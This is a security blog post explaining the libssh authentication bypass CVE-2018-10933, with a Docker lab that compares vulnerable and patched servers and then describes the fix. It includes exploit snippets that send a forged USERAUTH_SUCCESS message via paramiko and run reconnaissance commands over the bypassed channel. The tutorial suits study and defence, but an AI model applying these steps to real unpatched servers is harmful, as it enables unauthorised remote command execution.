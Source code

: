 :slug: libssh-bypass-cve/
:date: 2018-10-18
:category: attacks
:subtitle: New vulnerability on libssh CVE-2018-10933
:tags: security, bug, libssh, pentesting
:image: cover.png
:alt: Painting a red and blue wall
:description: Libssh is a library to implement SSHv2 protocol on the client and server side. Recently a security analyst discovered a vulnerability that allows a remote attacker to bypass authentication by sending a user-authenticated packet to the server. Here, we are going to explain this vulnerability.
:keywords: Libssh, Security, CVE, Vulnerability, Pentesting, PoC.
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:source: https://unsplash.com/photos/d6YyP28-Ycw

= LibSSH new Vulnerability

The new vulnerability in `LibSSH`,
tracked as link:https://www.libssh.org/security/advisories/CVE-2018-10933.txt[CVE-2018-10933],
resides on the server code
which can enable a client to bypass the authentication process
and create channels without permission.
This affects servers using versions `0.6` and above
being used in server mode.

The bug was discovered by Peter Winter-Smith of NCC Group,
it's like a `jedi` trick:

* User: `Let me in`
* Server: NO
* User: `I'm authenticated, let me in`
* Server: OK, YOU'RE IN

Why does this happen?
Because of the way `LibSSH` checks for authentication
when it receives an `SSH2_MSG_USERAUTH_SUCCESS` message
instead of the `SSH2_MSG_USERAUTH_REQUEST` message.
It acts like the user is already authenticated,
so an attacker could bypass the authentication
and execute commands on the server.

== Building the enviroment

How does LibSSH work?
It's a `C` library to implement `SSHv2` protocol
on the client and server side.
First, we need to write our server-side code.
We are going to use the sample that `LibSSH`
has (`samplesshd-cb.c`) and modify it for our purposes.

In the `ssh_channel_callbacks_struct`
we are going to put the following line
in order to have the `exec` functionality:

.exec request
[source,C]
----
.channel_exec_request_function = exec_request
----

image::channel-exec.png[channel-exec]


Next, add the `exec_request` function,
this will take our commands and execute them on the server:

[source,C]
----
static int exec_nopty(const char *command) {
            /* exec the requested command. */
            execl("/bin/sh", "sh", "-c", command, NULL);
            exit(0);

    return SSH_OK;
}

static int exec_request(ssh_session session, ssh_channel channel,
                        const char *command, void *userdata) {

    printf("Allocated exec  \n");
    (void) userdata;
    (void) session;
    (void) channel;

    return exec_nopty(command);
}
----

If you have `LibSSH` with version `0.7.4`
you can simply save it, compile it, and execute it.
If not, you can use our method.
We are going to use a `docker` container
and install both versions
(a vulnerable one and a patched one) and then,
pass our code to the server and run it.
The example files can be downloaded [button]#link:cve201810933.zip[here]#.

To build the container,
open a `terminal` in the folder of the `Dockerfile`
and run this command:

[source,bash]
----
host$ docker build -t fluidattackscve201810933 .
----

This will download all the necessary files
and compile all the sources of `LibSSH`.

Then, to open the container
simply run this command:

[source,bash]
----
host$ docker run -it -p 2222:2222 fluidattackscve201810933:latest /bin/bash
----

This is going to mirror our port `2222`
to the container port `2222` in order to be able to run our tests.
Also, it will open a `bash` terminal
on the container machine where we will run our `LibSSH` server.

== Exploiting the vulnerability

In this case, we are going to use `LibSSH v0.7.4`
and test the solution with `LibSSH v0.7.6`.
The `PoC` is on `Python` version `2`,
and you can check its source link:https://www.openwall.com/lists/oss-security/2018/10/17/5[here],
but if you downloaded our files,
it's there as `exploit.py`.

In order to run this `PoC` you will need `paramiko`.
You can install it by running:

[source,bash]
----
host$ pip install paramiko
----

In the container, run the following command
to start the vulnerable `LibSSH` server:

[source,bash]
----
container$ ./tmp/libssh-0.7.4/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
----

The verbose flag is to see what is sending and receiving our server.

Then, in your machine run the exploit with:

[source,bash]
----
host$ python exploit.py
----

If you check your container
you can see this:

image::ssh-bypass.png[ssh-bypass]

When the server is expecting the `SSH2_MSG_USERAUTH_REQUEST`,
we are sending an `SSH2_MSG_USERAUTH_SUCCESS`.

[source,python]
----
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
transport._send_message(m)
----

The server accepts it, and we bypassed the authentication.
Then, we can send our commands to the server with:

[source,python]
----
cmd_channel.exec_command("whoami; id; ls -la /; ip addr")
----

image::command-exec.png[command-exec]

== The solution

image::dont-work.png[dont-work]

The LibSSH version `0.7.6` doesn't have this vulnerability.
We can test it, too, in our container.
We just need to run:

[source,bash]
----
container$ ./tmp/libssh-0.7.6/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
----

And on our machine the exploit again:

[source,bash]
----
host$ python exploit.py
----

image::no-vulnerable.png[no-vulnerable]

What's happening?
We send the `SSH2_MSG_USERAUTH_SUCCESS`.
The server receives it, but it won’t authenticate us
because they added a validation on their code.
When the packet is `SSH2_MSG_USERAUTH_SUCCESS`,
then, it checks for the authentication state.
If it is not one of the valid states, it denies the packet.

.Code on src/packet.c
image::solution.png[solution]

Here you can see the difference between responses
for a vulnerable version and a non-vulnerable one.

.Vulnerable
image::vulnerable.png[vulnerable]

.Non-vulnerable
image::no-vulnerable.png[no-vulnerable2]

If you have `LibSSH` in your server,
and you are using a server component,
you should install the updated, or patched, versions of `LibSSH`.
